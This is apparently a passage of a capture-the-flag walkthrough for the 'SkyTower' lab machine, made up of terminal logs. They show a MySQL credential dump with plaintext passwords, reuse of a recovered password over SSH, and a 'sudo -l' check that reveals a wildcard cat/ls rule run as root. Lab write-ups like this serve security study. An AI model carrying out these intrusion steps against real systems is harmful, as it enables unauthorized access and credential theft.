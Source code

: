 
Get the database Tables

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.06 sec)

mysql> use SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting all users from application

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Connecting as sara

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john@SkyTower:/var/www$ ssh sara@localhost /bin/bash
sara@localhost's password: 
id
uid=1001(sara) gid=1001(sara) groups=1001(sara)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Sara has sudo -l rigths 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
john@SkyTower:/var/www$ ssh sara@localhost
sara@localhost's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct  2 06:50:17 2019 from localhost
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~